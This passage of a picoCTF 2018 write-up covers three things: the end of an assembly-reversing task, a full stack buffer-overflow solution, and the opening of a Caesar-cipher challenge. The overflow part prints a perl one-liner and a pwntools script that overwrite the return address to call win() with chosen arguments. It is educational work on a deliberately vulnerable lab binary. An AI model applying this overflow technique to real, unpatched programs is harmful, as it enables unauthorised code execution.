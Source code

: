 Solve it exactly like the one before. Comment out .bits 32. Compile with -m32. Call asm2 from main and print result.
```C
int asm2(int a, int b);
void main(void) { printf("0x%x\n", asm2(0x6, 0x28)); }
```
```bash
gcc -m32 -o loop_asm_rev loop_asm_rev.S main.c
./loop_asm_rev
0x129
```
Debug with gdb if you want to follow it instruction by instruction and see what happens.

# buffer overflow 2
### Binary Exploitation: 250p
Alright, this time you'll need to control some arguments. Can you get the flag from this [program](https://2018shell2.picoctf.com/static/f57debba2ed8ba3a47a20ac7206ed79b/vuln)? You can find it in /problems/buffer-overflow-2\_0\_738235740acfbf7941e233ec2f86f3b4 on the shell server. [Source](https://2018shell2.picoctf.com/static/f57debba2ed8ba3a47a20ac7206ed79b/vuln.c).
```
file vuln
vuln: ELF 32-bit LSB executable, Intel 80386...
```
Examine source. It reads input to buf that is 100 bytes long in vuln() function. Function win() is never called but prints flag if arguments are 0xdeadbeef and 0xdeadc0de.
So things needed on the stack for this to work is 100 + a couple of bytes + address of win() function + 0xdeadbeef and 0xdeadc0de.
```
objdump -d vuln | grep win
080485cb <win>:
# Try some offsets until we hit win()
perl -e 'print "A"x112 . "\xcb\x85\x04\x08"' | ./vuln
Flag File is Missing
```
Good. Now just add the arguments. Check how many bytes are needed between address and arguments with gdb. pwntools has useful functions process(), p32(), recvuntil(), sendline() and recvall(). For other challenges, that spawns a shell, it also has interact().
```python
from pwn import *
p = process('./vuln')
p.recvuntil('Please enter your string:')
payload = "A"*112 + p32(0x080485cb) + "B"*4 + p32(0xdeadbeef) + p32(0xdeadc0de)
p.sendline(payload)
print p.recvall()
```
# caesar cipher 2
### Cryptography: 250p
Can you help us decrypt this [message](https://2018shell2.picoctf.com/static/732681495a458d226b12ae9f5e1b2730/ciphertext)? We believe it is a form of a caesar cipher. You can find the ciphertext in /problems/caesar-cipher-2\_3\_4a1aa2a4d0f79a1f8e9a29319250740a on the shell server.

